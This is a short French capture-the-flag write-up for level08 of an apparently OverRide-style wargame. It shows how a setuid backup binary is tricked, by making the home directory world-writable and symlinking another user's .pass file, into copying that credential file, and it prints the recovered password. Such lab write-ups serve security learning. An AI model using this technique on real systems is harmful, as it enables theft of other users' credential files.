 ## level08
- En plus d'un binaire `level08`, le dossier utilisateur contient aussi un sous-dossier `backups` (en chmod 770) ; ce dernier contient un fichier `.log` (lui aussi en 770). En manipulant un peu le binaire, on peut voir qu'il attend un fichier en `argv[1]`, afin de le sauvegarder.
- En essayant d'accéder au fichier `.pass`, on voit que le binaire a un souci avec les chemins :
```
level08@OverRide:~$ ./level08 /home/users/level09/.pass
ERROR: Failed to open ./backups//home/users/level09/.pass
level08@OverRide:~$ ./level08 ../level09/.pass
ERROR: Failed to open ./backups/../level09/.pass
```
- Nous allons contourner ce souci en utilisant un lien symbolique :
```
level08@OverRide:~$ chmod 777 .
level08@OverRide:~$ ln -s /home/users/level09/.pass toto
level08@OverRide:~$ ./level08 toto
level08@OverRide:~$ cat backups/toto 
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```
